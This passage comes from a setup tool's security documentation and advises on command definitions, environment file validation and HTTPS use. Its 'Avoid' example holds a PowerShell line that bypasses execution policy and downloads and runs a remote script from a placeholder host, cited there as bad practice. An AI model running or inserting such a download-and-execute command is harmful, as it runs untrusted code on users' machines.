 #### 2. **Command Security**
```yaml
# ✅ Good: Specific, well-defined commands
commands:
  - packageName: "git-config"
    command: "git"
    params:
      config:
        - "--global user.name 'Your Name'"
        - "--global user.email 'you@example.com'"

# ❌ Avoid: Arbitrary or complex command chains
commands:
  - packageName: "dangerous"
    command: "powershell -ExecutionPolicy Bypass -Command 'iex (irm https://untrusted.com/script.ps1)'"
```

### Environment File Security

#### 1. **File Validation**
- Always validate environment files before use:
  ```powershell
  # Test configuration before installation
  devsetup -Install -Name "my-env" -DryRun
  ```

#### 2. **Source Verification**
- Only use environment files from trusted sources
- Review all commands and packages before execution
- Verify checksums when downloading from URLs

#### 3. **Access Control**
- Store environment files in secure locations
- Use appropriate file permissions
- Avoid storing secrets in plain text

### Network Security

#### 1. **HTTPS Usage**
- Always use HTTPS URLs for remote environment files
- Verify SSL certificates are valid
- Use trusted mirror sources for packages

#### 2. **Firewall Considerations**
- Package managers may require internet access
- Consider corporate proxy configurations
- Monitor network traffic during installations

### Execution Environment
